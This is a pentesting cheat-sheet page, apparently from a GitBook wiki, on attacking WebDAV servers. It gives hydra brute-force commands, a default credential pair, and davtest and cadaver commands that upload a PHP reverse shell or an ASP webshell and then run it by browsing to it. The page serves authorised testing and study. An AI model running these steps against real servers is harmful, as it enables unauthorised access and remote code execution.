 # WebDAV

## Theory

WebDAV is a set of extensions to the Hypertext Transfer Protocol, which allows user agents to collaboratively author contents directly in an HTTP web server. Usually, to **connect** a WebDav server you will need valid **credentials.**

## Practice

{% hint style="info" %}
On Windows, users can also access and mount WebDAV shares via UNC paths, such as `\\10.37.129.2@80\example_webdav_folder`.
{% endhint %}

### Brute-force (HTTP Basic Auth)

{% tabs %}
{% tab title="hydra" %}
WebDAV usually require valid credentials using HTTP Basic Auth. You may bruteforce it using [hydra](https://github.com/vanhauser-thc/thc-hydra)

```bash
hydra -L users.txt -P passwords.txt example.domain.local http-get /webdavDirectory/
```

{% hint style="info" %}
Default credentials are **`wampp:xampp`**
{% endhint %}
{% endtab %}
{% endtabs %}

### Upload a shell

{% tabs %}
{% tab title="Davtest" %}
**Davtest** will try to upload several files with different extensions and check if the extension is executed:

```bash
# Test and cleanup
davtest -url http://example.com/davdir -auth 'user:pass' -cleanup

#Uplaod .txt files and try to move it to other extensions
davtest -url http://example.com/davdir -auth 'user:pass' -cleanup -move 
```

If we can upload the file e.g. PHP file, upload the script for reverse shell.

```bash
davtest -url http://example.com/davdir -auth 'user:pass' -uploadfile shell.php -uploadloc shell.php
```

Then we can navigate to http://example.com/davdir/shell.php to execute it.
{% endtab %}

{% tab title="Cadaver" %}
You can use this tool to **connect to the WebDav** server and perform actions (like **upload**, **move** or **delete**) **manually**.

```bash
$ cadaver http://example.com/davdir
Username: bob
Password: 
dav:/davdir/> put /usr/share/webshells/asp/webshell.asp
```

Then we can navigate to http://example.com/davdir/webshell.asp to execute it.
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/web/webdav-pentesting/" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav" %}
